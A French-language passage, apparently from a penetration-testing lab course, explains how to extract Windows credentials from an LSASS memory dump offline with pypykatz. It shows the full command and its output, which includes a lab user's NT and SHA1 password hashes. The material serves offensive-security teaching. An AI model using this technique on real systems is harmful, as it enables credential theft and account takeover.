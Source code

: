 Si nous parvenons à exécuter cette commande et à générer le fichier lsass.dmp, nous pouvons procéder au transfert du fichier sur notre boîte d'attaque pour tenter d'extraire toutes les informations d'identification qui auraient pu être stockées dans la mémoire du processus LSASS.
<hr>

## Utilisation de Pypykatz pour extraire les informations d'identification

Une fois que nous avons le fichier de vidage sur notre hôte d'attaque, nous pouvons utiliser un outil puissant appelé pypykatz pour tenter d'extraire les informations d'identification du fichier .dmp. Pypykatz est une implémentation de Mimikatz entièrement écrite en Python. Le fait qu'il soit écrit en Python nous permet de l'exécuter sur des hôtes d'attaque basés sur Linux. Au moment d'écrire ces lignes, Mimikatz ne fonctionne que sur les systèmes Windows, donc pour l'utiliser, nous aurions besoin d'utiliser un hôte d'attaque Windows ou nous aurions besoin d'exécuter Mimikatz directement sur la cible, ce qui n'est pas un scénario idéal. Cela fait de Pypykatz une alternative attrayante car tout ce dont nous avons besoin est une copie du fichier de vidage, et nous pouvons l'exécuter hors ligne à partir de notre hôte d'attaque basé sur Linux.

Rappelez-vous que LSASS stocke les informations d'identification qui ont des sessions de connexion actives sur les systèmes Windows. Lorsque nous avons vidé la mémoire du processus LSASS dans le fichier, nous avons essentiellement pris un "instantané" de ce qui était en mémoire à ce moment-là. S'il y a eu des sessions de connexion actives, les informations d'identification utilisées pour les établir seront présentes. Exécutons Pypykatz sur le fichier de vidage et découvrons-le.

## Exécution de Pypykatz
La commande lance l'utilisation de pypykatz pour analyser les secrets cachés dans le vidage mémoire du processus LSASS. Nous utilisons lsa dans la commande car LSASS est un sous-système de l'autorité de sécurité locale, puis nous spécifions la source de données en tant que fichier minidump, précédé du chemin vers le fichier de vidage (/home/peter/Documents/lsass.dmp) stocké sur notre hôte d'attaque. Pypykatz analyse le fichier de vidage et affiche les résultats :
```
dsgsec@htb[/htb]$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 

INFO:root:Parsing file /home/peter/Documents/lsass.dmp
FILE: ======== /home/peter/Documents/lsass.dmp =======
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
```